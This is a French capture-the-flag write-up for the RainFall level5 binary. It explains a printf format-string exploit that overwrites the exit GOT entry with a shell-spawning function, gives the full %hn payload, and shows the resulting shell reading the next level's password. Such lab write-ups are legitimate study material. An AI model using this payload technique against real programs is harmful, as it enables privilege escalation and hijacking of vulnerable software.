 Nous avons un binaire **./level5**
COmmencons par voir les appels aux fonctions:
```sh
level5@RainFall:~$ ltrace ./level5
__libc_start_main(0x8048504, 1, 0xbffff7f4, 0x8048520, 0x8048590 <unfinished ...>
fgets(%p%p%p%p%p%p%p%p%p%p%p%p%p%p
"%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n", 512, 0xb7fd1ac0)      = 0xbffff540
printf("%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n", 0x200, 0xb7fd1ac0, 0xb7ff37d0, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0xa, (nil), 0xb7fde000, 0xb7fff53c0x2000xb7fd1ac00xb7ff37d00x702570250x702570250x702570250x702570250x702570250x702570250x702570250xa(nil)0xb7fde0000xb7fff53c
) = 124
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
level5 fini par un exit visiblement avant d'arriver à la fin du programme. On remarque qu'il y a un appel à printf et que printf est vulnérable à l'exploit de format, cherchons l'index: 
```sh
level5@RainFall:~$ ./level5
aaaa%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
aaaa0x2000xb7fd1ac00xb7ff37d00x616161610x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250xbfff000a0x400xb80(nil)0xb7fde7140x98
```
C'est a l'index 4 que nous retrouvons notre chaîne "aaaa" : 0x61616161.
Passons au désassemblage:

```asm
level5@RainFall:~$ objdump ./level5 -d -M intel

./level5:     file format elf32-i386

Disassembly of section .init:
...
080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    *0x8049838
 80483d6:       68 28 00 00 00          push   $0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>
 ...
080484a4 <o>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       83 ec 18                sub    esp,0x18
 80484aa:       c7 04 24 f0 85 04 08    mov    DWORD PTR [esp],0x80485f0
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:       55                      push   ebp
 80484c3:       89 e5                   mov    ebp,esp
 80484c5:       81 ec 18 02 00 00       sub    esp,0x218
 80484cb:       a1 48 98 04 08          mov    eax,ds:0x8049848
 80484d0:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484d4:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484e2:       89 04 24                mov    DWORD PTR [esp],eax
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt>
 80484ea:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484f0:       89 04 24                mov    DWORD PTR [esp],eax
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt>
 80484f8:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt>

08048504 <main>:
 8048504:       55                      push   ebp
 8048505:       89 e5                   mov    ebp,esp
 8048507:       83 e4 f0                and    esp,0xfffffff0
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret
 8048511:       90                      nop
...
```
Plusieurs choses:
- **main** appel **n** qui appelle **fgets** avec un buffer de 512 octets puis **printf**
- **n** appelle **exit**
- il y a une fonction **o** qui appelle system chargé avec le buffer "/bin/sh" -> c'est évidemment notre cible
```sh
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) x/s 0x80485f0
0x80485f0:       "/bin/sh"
```
- **o** n'a pas de protection particulière conditionnant son accès, un jump dans gdb permet d'y accéder, mais il nous faut les droits level6

Il faut donc contourner l'appel a **exit** de **n** pour appeler **o** à la place.
On a vu au précédant hack qu'avec le format **%n** il était possible d'écrire des valeurs à une adresse. Il faudrait donc écraser l'adresse d'**exit** pour la remplacer par celle de **o**.
L'adresse de **o** est **0x080484a4**, celle d'**exit** est **0x8049838**.
> L'adresse de exit issue de la libc change à chaque fois si ASLR est activé, on sait que non dû au message d'accueil du level5, mais on peut vérifier comme ceci:
```bash
level5@RainFall:~$ ldd ./level5
        linux-gate.so.1 =>  (0xb7fff000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        /lib/ld-linux.so.2 (0x80000000)
level5@RainFall:~$ for i in `seq 0 4`; do ldd ./level5 | grep libc; done
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
> On voit que l'adresse **0xb7e4e000** ne change pas.

L'adresse de o représente un nombre gigantesque pour être écrit par printf en nombre de caractère, potentiellement cela peut crasher. Nous allons donc écrire l'adresse en deux fois à l'aide de 2 * 2 octets au lieu de 4 octets d'un coup en séparant lower bytes et higher bytes (LOB et HOB) à l'aide de %hn qui n'écrit que le LOB de l'int pointé par %n:

>si HOB < LOB
>[adresse + 2][adresse]%[HOB - 8]x%[offset]$hn%[LOB - HOB]x%[offset + 1]

>si HOB > LOB
>[address + 2][address]%[LOB - 8]x%[offset + 1]$hn%[HOB - LOB]x%[offset]

ici: 0x0804 < 0x84a4 donc options 1
En little endian nous allons commencer à écrire 2 octets dans la dernière partie de l'adresse de exit puis 2 octets dans la première.
Nous convertissons 0x0804 et 0x84a4 en décimal 2056 et 33956 il faut enlever 8 octets pour les 2 adresses puis enlever le nombres d'octets déjà écrit (33956 - 2052) ce qui donne 2044 et 31904, donc on a:
```sh
level5@RainFall:~$ python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/payload
level5@RainFall:~$ cat /tmp/payload - | ./level5

                                                                              b7fd1ac0
```
On dirai que nous avons un shell, essayons **id**:
```sh
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Flag!
